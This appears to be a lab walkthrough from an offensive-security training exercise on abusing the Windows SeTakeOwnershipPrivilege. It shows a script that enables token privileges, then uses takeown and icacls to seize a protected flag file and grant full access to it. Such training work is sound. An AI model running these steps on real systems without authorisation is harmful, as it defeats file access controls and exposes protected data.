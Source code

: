 This privilege grants a user the ability to take ownership of any "securable object," meaning Active Directory objects, NTFS files/folders, printers, registry keys, services, and processes.

```bash
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== ========
SeTakeOwnershipPrivilege      Take ownership of files or other objects Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Disabled
```

Currently set to disable. To enable, use this script:

https://raw.githubusercontent.com/fashionproof/EnableAllTokenPrivs/master/EnableAllTokenPrivs.ps1

```bash
PS C:\Tools> Import-Module .\Enable-Privilege.ps1
PS C:\Tools> .\EnableAllTokenPrivs.ps1
PS C:\Tools> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                              State
============================= ======================================== =======
SeTakeOwnershipPrivilege      Take ownership of files or other objects Enabled
SeChangeNotifyPrivilege       Bypass traverse checking                 Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set           Enabled
```

Trying to access protected file:

```bash
PS C:\Tools> type C:\TakeOwn\flag.txt
type : Access to the path 'C:\TakeOwn\flag.txt' is denied.
```

Taking ownership of the file

```bash
takeown /f 'C:\TakeOwn\flag.txt'
```

If viewing the file still doesn't work, modify the permissions:

```bash
icacls 'C:\TakeOwn\flag.txt' /grant htb-student:F
```

